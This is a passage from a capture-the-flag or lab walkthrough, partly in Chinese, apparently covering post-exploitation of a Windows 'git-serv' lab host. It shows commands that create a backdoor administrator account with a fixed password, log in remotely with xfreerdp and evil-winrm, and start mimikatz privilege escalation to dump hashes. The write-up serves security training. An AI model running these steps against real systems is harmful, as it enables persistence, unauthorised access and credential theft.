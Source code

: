 > What is the hostname for this target?

> git-serv

> What operating system is this target?

> Windows

> What user is the server running as?

> NT AUTHORITY\SYSTEM

> How many make it to the waiting listener?

> 0



由于我们现在是system账号，并且靶机开启了3389和5985端口，可以通过添加一个添加一个用户到rdp组合administrators组，从而远程登录


```

> net user max max123456 /add
"The command completed successfully.

" 

> net localgroup Administrators max /add
"The command completed successfully.

" 

> net localgroup "Remote Management Users" max /add
"The command completed successfully.


```


rdp登录
```
xfreerdp /u:max /p:'max123456' /v:10.200.101.150 +clipboard 
```

win登录
```
evil-winrm -u max -p max123456 -i 10.200.101.150
```

# Task 21  Git Server Stabilisation & Post Exploitation

rdp进去导出哈希

```
C:\Users\max\Documents>.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM
```